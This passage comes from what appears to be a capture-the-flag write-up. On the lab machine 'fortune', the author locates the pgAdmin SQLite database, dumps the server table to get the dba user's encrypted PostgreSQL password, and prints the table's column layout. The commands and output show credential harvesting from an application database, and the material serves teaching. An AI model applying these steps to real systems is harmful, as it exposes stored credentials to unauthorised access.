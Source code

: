 If I look at `/var/lib/pgadmin/pgadmin4.db`, I don’t find it, but looking for a file named `pgadmin4.db`, I find it (I can’t explain why it’s in this path and not the expected one above):

```

fortune$ find /var -name pgadmin4.db 2>/dev/null 
/var/appsrv/pgadmin4/pgadmin4.db

```

### pgadmin DB

From the database, I can dump the encrypted dba password from the `server` table:

```

fortune$ sqlite3 pgadmin4.db
SQLite version 3.24.0 2018-06-04 19:24:41
Enter ".help" for usage hints.
sqlite> .tables
alembic_version              roles_users
debugger_function_arguments  server
keys                         servergroup
module_preference            setting
preference_category          user
preferences                  user_preferences
process                      version
role
sqlite> select * from server;
1|2|2|fortune|localhost|5432|postgres|dba|utUU0jkamCZDmqFLOrAuPjFxL0zp8zWzISe5MF0GY/l8Silrmu3caqrtjaVjLQlvFFEgESGz||prefer||||||<STORAGE_DIR>/.postgresql/postgresql.crt|<STORAGE_DIR>/.postgresql/postgresql.key|||0||||0||22||0||0|

```

I’ll pull the column headings for the `server` table, and see that the second column above (which has the value 2) is `user_id`:

```

sqlite> PRAGMA table_info(server);
0|id|INTEGER|1||1
1|user_id|INTEGER|1||0
2|servergroup_id|INTEGER|1||0
3|name|VARCHAR(128)|1||0
4|host|VARCHAR(128)|0||0
5|port|INTEGER|1||0
6|maintenance_db|VARCHAR(64)|0||0
7|username|VARCHAR(64)|1||0
8|password|VARCHAR(64)|0||0
9|role|VARCHAR(64)|0||0
...[snip]...

```
